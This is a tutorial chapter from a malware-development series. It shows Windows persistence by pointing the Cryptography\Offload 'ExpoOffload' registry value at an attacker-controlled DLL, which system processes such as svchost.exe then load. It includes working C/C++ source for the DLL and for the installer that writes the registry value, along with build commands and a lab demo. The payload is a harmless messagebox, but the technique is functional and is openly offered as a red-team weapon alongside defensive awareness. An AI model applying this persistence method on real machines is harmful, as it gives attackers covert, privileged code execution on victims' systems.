



\newpage
\subsection{82. malware development: persistence - part 16. Cryptography Registry Keys. Simple C++ example.}

﷽

{width="80%"}    

This article is the result of my own investigation into one of the interesting malware persistence trick: via Cryptography Registry Key.     

In the course of studying the registry, I came across an interesting path:     

`HKLM\Software\Microsoft\Cryptography\`     

And there is a such function `OffloadModExpo`. If I understand correctly, this function is used to perform all modular exponentiations for both public and private key operations:     

{width="80%"}    

I didn't go into too much detail, the very opportunity to experiment with this key and value in the Windows registry is enough for me. So, I tried to hijacking this DLL path:    

`HKLM\Software\Microsoft\Cryptography\Offload` and key value.    

### practical example

First of all, as usually, create "evil" DLL. As usually, just `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

{width="80%"}    

And create Proof-of-Concept code for hijacking (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That's all I need for experiment.      

### demo

Let's go to see everything in action. Compile our Proof-of-Concept code:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    


Then, for the purity of experiment, check registry keys in the victim’s machine and delete keys if exists:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

{width="80%"}    

Then, run our `pers.exe` script and check again:     

{width="80%"}    

And now I'll try to run something. For example, I will try to open `https:\\...` link at the browser or use search bar.    

{width="80%"}    

In the course of performing some cryptographic operations at the background, we will see more and more popups.    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Also I couldn't even run `Process Hacker 2` for investigation of the situation.     

{width="80%"}    

Then, restore my VM snapshot, run sysinternals `Procmon` with following filters:     

{width="80%"}    

{width="80%"}    

And as a result:     

{width="80%"}    

{width="80%"}    

As you can see at some stage my "evil" `meow-meow` DLL loaded by `svchost.exe`, `ProcessHacker.exe` and other processes.     

So, everything is worked correctly. Perfectly! =^..^=     

After end of experiments, restore my registry state:     

{width="80%"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     
